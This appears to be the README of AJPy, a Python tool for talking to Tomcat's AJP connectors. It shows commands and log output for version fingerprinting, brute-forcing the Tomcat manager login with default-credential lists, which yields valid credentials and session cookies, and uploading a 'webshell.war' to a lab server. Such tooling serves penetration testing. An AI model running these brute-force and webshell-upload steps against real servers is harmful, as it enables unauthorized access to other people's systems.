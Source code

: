 # Intro

AJPy aims to craft AJP requests in order to communicate with AJP connectors.

Reference documentation: https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html

# Tools

At the moment, only one tool is provided for Tomcat with the following modules:

* version fingerprint
```
$ python tomcat.py version 172.17.0.2
Apache Tomcat/8.0.35
```

* authentication bruteforce
```
$ python tomcat.py -v  bf -U tomcat_mgr_default_users.txt -P tomcat_mgr_default_pass.txt /manager/html 172.17.0.2
[2016-06-10 17:24:55.965] INFO     Attacking a tomcat at ajp13://172.17.0.2:8009/manager/html
[2016-06-10 17:24:56.017] DEBUG    testing admin:admin
[2016-06-10 17:24:56.069] INFO     Found valid credz: admin:admin
[2016-06-10 17:24:56.069] INFO     Here is your cookie: JSESSIONID=1267BE97BFB5BFAEAFAAD76EE648FE06; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.069] DEBUG    testing admin:manager
[2016-06-10 17:24:56.152] DEBUG    testing admin:role1
[2016-06-10 17:24:56.154] DEBUG    testing admin:root
[2016-06-10 17:24:56.155] DEBUG    testing admin:tomcat
[2016-06-10 17:24:56.157] DEBUG    testing manager:admin
[2016-06-10 17:24:56.158] DEBUG    testing manager:manager
[2016-06-10 17:24:56.159] DEBUG    testing manager:role1
[2016-06-10 17:24:56.160] DEBUG    testing manager:root
[2016-06-10 17:24:56.161] DEBUG    testing manager:tomcat
[2016-06-10 17:24:56.164] DEBUG    testing role1:admin
[2016-06-10 17:24:56.164] DEBUG    testing role1:manager
[2016-06-10 17:24:56.165] DEBUG    testing role1:role1
[2016-06-10 17:24:56.166] DEBUG    testing role1:root
[2016-06-10 17:24:56.167] DEBUG    testing role1:tomcat
[2016-06-10 17:24:56.169] DEBUG    testing root:admin
[2016-06-10 17:24:56.170] DEBUG    testing root:manager
[2016-06-10 17:24:56.171] DEBUG    testing root:role1
[2016-06-10 17:24:56.172] DEBUG    testing root:root
[2016-06-10 17:24:56.173] DEBUG    testing root:tomcat
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:admin
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:manager
[2016-06-10 17:24:56.176] DEBUG    testing tomcat:role1
[2016-06-10 17:24:56.177] DEBUG    testing tomcat:root
[2016-06-10 17:24:56.178] DEBUG    testing tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Found valid credz: tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Here is your cookie: JSESSIONID=9944126F31E428B8847AFEBF2307BB09; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.184] DEBUG    testing tomcat:sstic2016
[2016-06-10 17:24:56.186] DEBUG    testing both:admin
[2016-06-10 17:24:56.187] DEBUG    testing both:manager
[2016-06-10 17:24:56.188] DEBUG    testing both:role1
[2016-06-10 17:24:56.189] DEBUG    testing both:root
[2016-06-10 17:24:56.190] DEBUG    testing both:tomcat
[2016-06-10 17:24:56.191] DEBUG    Closing socket...
```

* WAR upload
```
$ python tomcat.py upload -u tomcat -p tomcat webshell.war 172.17.0.2
```

# Thanks
* @MrTchuss for the Tomcat WAR upload fix
* @kalidor for the Tomcat WAR undeploy and application listing
